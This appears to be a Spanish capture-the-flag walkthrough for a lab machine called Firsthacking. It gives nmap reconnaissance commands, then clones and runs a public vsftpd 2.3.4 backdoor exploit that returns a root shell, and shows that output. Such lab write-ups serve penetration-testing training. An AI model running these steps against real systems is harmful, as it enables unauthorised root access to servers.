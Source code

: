 # Explotación de la máquina firsthacking

## Información general
- **Nombre de la máquina**: Firsthacking
- **Dirección IP**: 172.17.0.2
- **Puntos de entrada**: TCP (Puerto 21)

## Reconocimiento
Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` 
`-p-` ⮞ aplicar reconocimiento a todos los puertos 
`--open` ⮞ solo a los que esten abiertos 
`--min-rate 5000` ⮞ para enviar paquetes más rápido 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)
`-Pn` ⮞ ignora si esta activa o no la IP
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
```
Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **21** 

```bash
Al ver que solo tenemos un puerto abierto vamos ha hacer un escaneo de nmap pero para que nos liste más información. Para llevar a cabo eso debemos hacer ```nmap -p21 -sCV 172.17.0.2 -oN targeted``` 
`-p21` ⮞ aplicar el escaneo solo al puerto 21 >
`-sC` ⮞ ejecuta los scripts de reconocimiento básico, los más comunes 
`-sV` ⮞ para conocer la versión del servicio que corre por el puerto (se puede juntar con el anterior y quedaría así `-sCV`)
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida 
`-oN` ⮞ lo exporta en formato nmap al archivo targeted 
```
FTP (Puerto 21)

Una vez ya conozcamos la versión del ftp podemos buscar por ella en Internet en búsquedad de algún exploit de esta forma ftp vsftpd 2.3.4 exploit github.
Nos encontramos con este repositorio de github. Si seguimos las instrucciones del repositorio instalando los requirimientos con sudo python3 -m pip install pwntools.
Nos descargamos el repositorio con git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git. Una vez esté descargado probamos ha hacer lo que nos dice que sería python3 exploit.py 172.17.0.2. Y listo ya seríamos root. 

```bash
python3 exploit.py 172.17.0.2  
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
```
